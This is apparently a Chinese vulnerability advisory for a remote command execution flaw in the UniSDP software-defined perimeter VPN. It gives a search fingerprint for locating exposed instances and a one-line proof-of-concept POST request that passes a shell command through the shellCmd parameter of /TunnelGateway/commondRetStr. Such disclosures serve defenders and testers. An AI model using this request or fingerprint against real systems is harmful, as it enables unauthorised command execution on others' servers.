


联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞¶
漏洞描述¶
联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。
漏洞影响¶
联软安界 UniSDP 软件定义边界系统
网络测绘¶
title="UniSSOView"
漏洞复现¶
登录页面

验证POC
POST /TunnelGateway/commondRetStr
shellCmd=id
